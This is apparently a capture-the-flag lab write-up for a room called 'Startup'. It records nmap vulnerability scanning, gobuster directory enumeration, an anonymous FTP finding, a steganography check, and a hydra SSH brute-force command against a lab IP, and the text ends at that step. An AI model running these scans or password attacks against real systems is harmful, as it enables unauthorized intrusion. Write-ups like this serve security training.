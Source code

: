 # Startup

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, hydra

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.228.144

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: run specified scripts<br>
-sV: probe open ports to determine service/version info
```
nmap --script vuln -sV 10.10.228.144
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Anonymous login allowed to ftp server

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.228.144 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Directory of Interest: /files

![1.3](./imgs/1.3.png)

10.10.228.144/files is hosting ftp

potential username found in notice.txt: maya

image found that could have hidden data<br>

See if there is anything hidden in important.jpg
```
binwalk important.jpg
steghide extract -sf important.jpg
```

nothing interesting found

### 2. BRUTE FORCE SSH

```
hydra -l maya -P /usr/share/wordlists/rockyou.txt ssh://10.10.228.144
```

